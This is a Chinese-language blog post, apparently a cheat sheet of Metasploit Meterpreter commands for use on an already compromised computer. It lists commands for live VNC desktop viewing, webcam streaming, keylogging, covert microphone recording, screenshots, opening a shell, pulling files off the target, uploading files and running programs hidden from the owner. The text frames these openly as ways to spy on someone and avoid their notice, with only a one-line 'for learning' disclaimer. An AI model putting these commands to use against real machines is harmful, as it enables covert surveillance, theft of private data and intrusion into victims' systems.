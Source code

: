 ```yaml
---
layout: post
title: '在Msf黑电脑的专用命令'
tags: linux 命令 shell
categories: dump
img: https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/MsfCmd/cover.jpg
---
```


当你进入Meterpreter命令行后，你就可以使用这些命令了。  
**警告：当你执行这些命令时，你需要想过有关国家法律的东西。你不能随意的攻击别人的电脑，你只能供学习使用。**

### 使用vnc查看桌面
VNC是一种远程连接的类型。就好似TeamViewer。但是，两者间不同的点是:VNC的基础是搭在Linux上的，是使用IP地址进行连接的类型，而控制也比较流畅TeamViewer的基础是搭在Windows的，是使用ID号进行连接的类型，而控制会有些一卡一卡的。  
但是，Metasploit的基础是搭在Linux上的。所以Metasploit选用了VNC连接。
```msf
run vnc
```
### 监视摄像头
运行此命令后，你会发现`/home/root`目录生成了一个`乱码.html`的文件。打开此文件后，会看到对方的摄像头的内容。
```msf
webcam_stream
```
### 监视键盘按下内容  
执行此命令后，可以看到对方正在打什么字。如果你要查看对方打什么，先输入
```msf
keyscan_start
```
来开启键盘记录功能。  
随后，显示键盘输入什么，请输入
```msf
keyscan_dump
```
如果你看够了，输入这条命令来结束。
```msf
keyscan_stop
```
### 录制声音
这又是一个很有趣的命令了。但是，这个命令仅支持安装了麦克风的电脑。  
这种电脑大多数是笔记本、手提电脑。  
如果你要窃听对方的电脑麦克风`x`秒，你可以输入
```msf
record -d x
```
这里面的x改为你要窃听的秒数。   
  
另外，你如果想从输入命令后起就窃听，这就有点不太行了。。  
好吧，下面这个命令是从输入命令之后开始窃听**直到按下`Ctrl`+`C`** 。  
```msf
record_mic
```
### 截屏
他会告诉你保存到哪里的，不过保存下载的截屏文件名也是乱码。
```msf
screenshot
```
### 进入cmd
入侵不同的系统有不同的命令行。比如入侵Windows就是进入cmd，入侵Linux就是进入bash。
```msf
shell
```
### 从目标机器下载东西
有点和上面的一样。但是Windows有盘符，而Linux没有盘符。所以如果你想要在Windows下载一些资料的话，要确认那个放资料的盘符，然后每进入一个目录输入两条`\`。
```msf
download C:\\path\\to\\file
```
上面的`C:\\path\\to\\file`可以改成你要下载的文件所在。  
  
如果是Linux，就更简单：
```msf
download /mnt/secretfolder/x
```
上面的`/mnt/secret/x`可以改成你要下载的文件所在。

### 从kali上传内容到目标机器
这又有点不同了。这次是要上传，所以要按照`upload 本地文件 上传的目录`的格式填写。就比如我的账户`root`账号里有一个叫做x的文件，我要这样写：
```msf
upload /home/root/x C:\\path\\for\\upload
```
`/home/root/x`可以改成你的文件所在，`C:\\path\\for\\upload`可以改成你要上传到的目录。  
当然，改成Linux的话也是一样：
```msf
upload /home/root/x /home/user/desktop
```
`/home/root/x`改成你的文件所在，`/home/user/desktop`改成要上传到的目录下。

### 查看有几个摄像头
这个命令可以先“概览”一下这台机器有没有摄像头。比如说你要攻击安卓，万一安卓机器是装在台式机上的，且没配备摄像头，这就不好说了吧。。  
如果你知道你是在攻击手提电脑Windows或其他，这就变成了装逼_的命令。
```msf
webcam_list
```

### 运行程序
如果你是运行在Windows下，这就比较好了。因为Windows在“运行程序”可以不需要带目录_。但是在Linux就说不定了，就要带目录。
```msf
execute -f 文件名
```
如果想要打开应用而不被机主发现打开了程序，可以加`-H`参数，隐秘的打开。
```msf
execute -f -H 文件名
```
如果想要交互式的打开而又不要机主发现，加`-i`参数咯。  
*(当是在Windows的环境下输入是cmd的话，有惊喜！)*
```msf
execute -i -f -H 文件名
```
